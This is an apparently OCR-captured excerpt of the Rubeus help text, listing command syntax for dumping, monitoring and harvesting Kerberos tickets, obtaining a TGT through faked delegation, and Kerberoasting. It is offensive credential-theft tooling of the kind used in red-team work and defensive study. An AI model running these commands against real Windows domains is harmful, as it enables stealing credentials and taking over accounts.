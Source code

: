 ```powershell



 Ticket extraction and harvesting:



    Triage all current tickets (if elevated, list for all users), optionally targeting a specific LUID, username, or service:

        Rubeus.exe triage [/luid:LOGINID] [/user:USER] [/service:krbtgt] [/server:BLAH.DOMAIN.COM]



    List all current tickets in detail (if elevated, list for all users), optionally targeting a specific LUID:

        Rubeus.exe klist [/luid:LOGINID] [/user:USER] [/service:krbtgt] [/server:BLAH.DOMAIN.COM]



    Dump all current ticket data (if elevated, dump for all users), optionally targeting a specific service/LUID:

        Rubeus.exe dump [/luid:LOGINID] [/user:USER] [/service:krbtgt] [/server:BLAH.DOMAIN.COM] [/nowrap]



    Retrieve a usable TGT .kirbi for the current user (w/ session key) without elevation by abusing the Kerberos GSS-API, faking delegation:

        Rubeus.exe tgtdeleg [/target:SPN]



    Monitor every /interval SECONDS (default 60) for new TGTs:

        Rubeus.exe monitor [/interval:SECONDS] [/targetuser:USER] [/nowrap] [/registry:SOFTWARENAME]



    Monitor every /monitorinterval SECONDS (default 60) for new TGTs, auto-renew TGTs, and display the working cache every /displayinterval SECONDS (default 1200):

        Rubeus.exe harvest [/monitorinterval:SECONDS] [/displayinterval:SECONDS] [/targetuser:USER] [/nowrap] [/registry:SOFTWARENAME]





 Roasting:



    Perform Kerberoasting:

        Rubeus.exe kerberoast [/spn:"blah/blah"] [/user:USER] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/ou:"OU=,..."] [/nowrap]


```